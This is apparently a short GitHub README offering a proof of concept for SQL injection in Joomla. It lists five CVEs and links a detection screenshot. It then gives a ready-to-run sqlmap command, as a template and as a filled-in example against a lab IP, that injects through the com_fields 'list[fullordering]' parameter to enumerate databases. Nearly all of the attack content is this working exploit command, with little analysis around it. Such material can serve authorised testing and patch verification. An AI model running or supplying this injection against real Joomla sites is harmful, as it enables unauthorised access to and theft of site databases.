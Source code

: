 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77416170-26e2c680-6df6-11ea-9923-07369d1e6620.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*&your token" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*&03286505451fb28982d4847525d6e00b" --dbms=mysql --technique=E --dbs

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
